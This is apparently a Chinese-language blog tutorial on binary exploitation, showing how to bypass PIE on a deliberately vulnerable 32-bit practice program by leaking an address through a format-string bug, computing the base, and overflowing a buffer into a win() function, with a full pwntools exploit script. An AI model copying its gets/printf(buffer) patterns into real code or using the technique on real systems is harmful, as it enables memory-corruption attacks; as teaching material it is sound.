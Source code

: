 ```yaml
---
title: '通过格式化字符串绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '无已知地址绕过 PIE'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址，我们必须使用其它手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了，我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的地址中减去 `0x11d5` 就会得到二进制文件的基地址。

<Tip>
  可以通过 `vmmap` 指令来查看程序运行的基地址。

  对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。
</Tip>

```python showLineNumbers
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python showLineNumbers
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

LINK

